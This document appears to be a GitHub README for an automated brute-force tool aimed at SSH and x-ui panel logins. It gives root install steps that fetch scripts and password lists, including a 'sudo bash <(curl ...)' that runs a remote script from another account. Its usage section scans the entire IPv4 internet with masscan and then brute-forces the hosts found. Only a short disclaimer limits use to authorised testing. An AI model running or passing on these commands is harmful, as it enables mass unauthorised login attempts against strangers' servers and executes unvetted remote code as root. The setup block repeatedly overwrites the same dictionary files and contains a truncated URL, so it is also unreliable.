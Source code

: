 # Auto-Brute-Force-Tool

A powerful automated tool for brute-forcing credentials and scanning for vulnerabilities. Designed for penetration testers and security researchers.

## Features

- Automated credential brute-forcing for SSH and other services
- Masscan integration for fast port scanning
- Easy setup with pre-configured scripts and dictionaries
- Flexible username/password sources

## Requirements

- Linux (Debian/Ubuntu recommended)
- Python 3
- Go
- `curl`, `screen`, `masscan`

## Installation

Clone the repository:

```sh
git clone https://github.com/hackthesystm13/Auto-Brute-Force-Tool.git
cd Auto-Brute-Force-Tool
```

**Run the setup commands:**  
_(Requires root privileges for installation and file downloads)_

```sh
if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit
fi

sudo curl -o xui.py "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xui.py"
sudo curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/password.txt"
sudo curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/username.txt"
sudo curl -o 1.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/1.txt"
sudo curl -o nz.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz.txt"
sudo curl -o xd.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xd.txt"
sudo curl -o xuiyg.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xuiyg.txt"
sudo bash <(curl -Ls https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/main/install_tools.sh | tr -d '\r')
sudo curl -o username.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E7%94%A8%E6%88%B7%E5%90%8D%E5%AD%97%E5%85%B8/SSH-username-top30.txt"
sudo curl -o password.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%AD%97%E5%85%B8/2021passwd-CN-Top200.txt"
sudo curl -o scan_xui.go "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/scan_xui.go"
sudo curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_password.txt"
sudo curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_username.txt"
sudo curl -o password.txt "https://raw.githubusercontent.com/r35tart/RW_Password/refs/heads/master/%E7%AC%A6%E5%90%88%E5%9B%9B%E4%B8%AA%E6%9D%A1%E4%BB%B6%E7%9A%848%E4%BD%8D%E6%95%B0%E5%AF%86%E7%A0%8114[...]"
sudo curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz_username.txt"
sudo apt-get update && sudo apt-get install screen -y
```

## Usage

```sh
screen -v
screen -S aissist
python3 xui.py            # Run the brute force script
screen -r aissist         # Reattach to the running screen session
masscan --exclude 255.255.255.255 -p2053 --max-rate 100000 -oG results2053.txt 0.0.0.0/0
HOME=/root go run scan_xui.go
```

## Notes

- Ensure you have the necessary permissions and legal rights to perform brute-force or scanning activities.
- Use responsibly and only on systems you own or have explicit permission to test.

## License

This project is intended for educational and authorized testing purposes only.
